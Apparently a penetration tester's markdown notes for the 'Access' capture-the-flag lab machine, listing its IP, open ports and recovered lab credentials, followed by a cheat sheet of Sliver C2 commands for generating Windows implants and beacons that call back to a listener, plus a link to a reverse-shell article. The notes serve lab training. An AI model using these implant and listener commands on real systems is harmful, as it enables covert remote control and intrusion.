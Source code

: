 # Access Notes

## Data 

IP:  10.10.10.98
OS: Window server 2008 x64 
Hostname: Access
Machine Purpose: 
Services: 21,23,80 - LON-MC6! - no udp!
Service Languages: 
Users:  users.txt
Credentials: passwords.txt
```
access4u@security is password for 'Access Control.zip'
"security" - 4Cc3ssC0ntr0ller
john - john@megacorp.com
security@accesscontrolsystems.com
```



## Objectives





## Solution Inventory Map



### Todo 


### Done



## Beyond Root

I feel in love with sliver from the silly names of implants to clarity and speed.
[Sliver Wiki](https://github.com/BishopFox/sliver/wiki/)
```go
sliver
// View all implants
implants
// Generate Beacons and Sessions
generate
// Choice one C2 endpoint using:
// --wg is wireguard 
--mtls --wg --http --dns
// Session are sessions opsec unsafe
generate --mtls domain.com --os windows --save 
// Beacons are asychronous - more opsec way they sleep and check 
generate beacon --mtls 10.10.10.10:6969 --arch amd64 --os windows -save /path/to/directory
// Regenerate
regenerate
// listeners
// Do not accept interfaces as arguemnts like metasploit
mtls
wg
https
http
dns
// Jonbs to view and manage listners
jobs
// Interact with sessions
use sessionID 
```

https://freshman.tech/snippets/go/cross-compile-go-programs/

https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/

